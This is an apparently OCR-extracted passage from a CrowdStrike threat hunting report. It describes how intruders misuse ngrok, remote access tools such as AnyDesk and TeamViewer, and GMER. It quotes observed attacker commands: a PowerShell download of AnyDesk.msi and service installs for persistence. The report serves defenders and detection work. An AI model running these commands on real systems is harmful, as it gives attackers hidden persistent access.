 Or used each time ngrok is run:
ssas.exe authtoken \[AUTH TOKEN REDACTED]
The authtoken string is a strong indicator of the use of this tool even if the binary has been renamed.
Nowhere to Hide: 2022 Falcon OverWatch Threat Hunting Report
CrowdStrike
34
Mainstay Tools
These tools are not new or increasing in use — they have been 
constantly used by attackers over the last few years, and OverWatch 
continues to see them in intrusions. While these may not be the new 
shiny items on the scene, it is important to remember that adversaries 
would not continue to use them if they did not find success. 
Remote Access Tooling
Command and Control
There is a well\-established and legitimate business need for remote access software. Numerous open\-source and commercial 
applications have been written to fulfill this need. IT operations use a variety of these applications depending on their budget and 
preferences. Adversaries are quick to take advantage of this by leveraging applications such as VNC, AnyDesk, Atera, TeamViewer 
and more to fulfill their mission objectives. 
In the Wild
Adversaries are leveraging legitimate remote access software because it is signed and trusted by operating systems. It is much 
more difficult to stop legitimate software from being installed because it will not be blocked by any of the defensive controls on 
the lookout for hacking tools. Once the software is installed, they use it to gain persistence in the event that their primary mode of 
access is denied. These tools also have the capability to send files directly to a victim host from an attacker controlled machine. 
This allows for stealthy transfer of additional malicious files.
OverWatch Observations
These tools are legitimate applications and are hosted on the company’s websites. OverWatch observes them being downloaded 
from the official websites in the same way a typical user would acquire the software. Once the executable is downloaded, it is 
installed through the standard MSI method for applications. In other cases, it can be installed as a service or built into a scheduled 
task for persistence.
powershell \-c (New\-Object Net.WebClient).DownloadFile('hxxp://download.anydesk\[.]com/
AnyDesk.msi', 'AnyDesk.msi')
C:\\Program Files (x86\)\\TeamViewer\\TeamViewer\_Service.exe" \-install
C:\\Program Files (x86\)\\AnyDesk\\AnyDesk.exe" \-\-service
Service Installation
This PowerShell command is reaching out to the AnyDesk site to pull down a legitimate executable.
Nowhere to Hide: 2022 Falcon OverWatch Threat Hunting Report
CrowdStrike
35
GMER
Defense Evasion
GMER was originally designed to be a defensive tool for the purpose of detecting and removing rootkits. Due to the way it interacts 
with the Windows operating system, it has been adopted by adversaries to bypass security features. 
In the Wild
Adversaries are bundling GMER alongside other discovery and defense evasion tools to quickly and efficiently push out encryption 
software to lock down environments. The tool can be downloaded as a file with a random string to evade Windows blocking based 
on binary name. 
OverWatch Observations
This tool is downloaded as a single executable and launches a graphical user interface for the user. This makes the tool easy to 